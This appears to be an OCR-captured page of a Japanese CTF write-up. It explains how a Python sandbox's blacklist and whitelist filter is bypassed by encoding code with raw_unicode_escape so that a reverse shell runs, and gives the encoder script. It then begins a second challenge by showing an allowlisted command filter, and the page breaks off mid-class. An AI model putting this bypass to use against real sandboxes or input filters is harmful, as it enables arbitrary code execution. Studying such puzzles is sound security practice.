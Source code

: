         'TypeError', 'execfile', 'SyntaxError', 'classmethod', 'cmp', 'tuple',
        'compile', 'try', 'all', 'open', 'divmod', 'staticmethod', 'license', 'raise',
        'Warning', 'frozenset', 'global', 'StandardError', 'IndentationError',
        'reduce', 'range', 'hash', 'KeyError', 'help', 'SystemExit', 'dir', 'ord',
        'True', 'UnboundLocalError', 'UnicodeWarning', 'TabError', 'RuntimeError',
        'sorted', 'sum', 'class', 'OverflowError'
    ]
    for entry in blacklist:
        if entry in data:
            return False
     
    whitelist = re.compile("^[\r\na-z0-9#\t,+*/:%><= _\\\-]*$", re.DOTALL)
    return bool(whitelist.match(data))
    --------------------------------------------------------------------------------
     
    raw_unicode_escape エンコーディングを使うと\uXXXX 形式でコードを書くことができる
    ので、 チェックを回避して任意のコードを実行できる。
     
    raw_unicode_escapeしたリバースシェルを突っ込んで終了
    """
    import sys
    f = open("input.py", "r")
    print "# coding: raw_unicode_escape"
    for c in f.read():
        sys.stdout.write("\u%04x" % ord(c))

### yass

    """
    --------------------------------------------------------------------------------
    $ ./yass
    yass online
    /bin/ls test
    /bin/ls: test にアクセスできません: そのようなファイルやディレクトリはありません
    --------------------------------------------------------------------------------
     
    コマンドを実行する時、snprintf(buf, size, '{"cmd":"%s", "args":"%s"}', コマンド, 引数)
    でYAMLを組み立て、modules/filter.pycに渡してチェックしている。
     
    --------------------------------------------------------------------------------
    """
    # 2013.12.28 11:59:16 JST
    #Embedded file name: /home/user/modules/filter.py
    import yaml
    import string
     
    class Filter:
     
        def __init__(self):
            self.allowed_commands = ['/bin/ls', '/usr/bin/whoami', '/usr/bin/uname']
            self.goodchars = string.lowercase + string.uppercase + string.digits + '/ *.?'
            self.payload = dict()
     